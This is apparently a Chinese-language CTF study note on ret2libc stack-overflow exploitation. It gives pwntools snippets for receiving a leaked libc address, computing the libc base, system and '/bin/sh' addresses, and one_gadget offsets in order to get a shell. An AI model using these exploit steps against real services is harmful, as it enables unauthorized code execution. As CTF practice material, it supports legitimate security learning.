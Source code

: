 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


## # 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

## # 接收被泄露的 libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## # 计算 libc 基址与其他函数的地址

- 计算 libc 基址

```python
# ELF
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))

# LibcSearcher
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

- 计算 one gadget 地址

```python
one_gadget_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadget_list[1]
log.success('one_gadget -> ' + hex(one_gadget))
```

## # 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。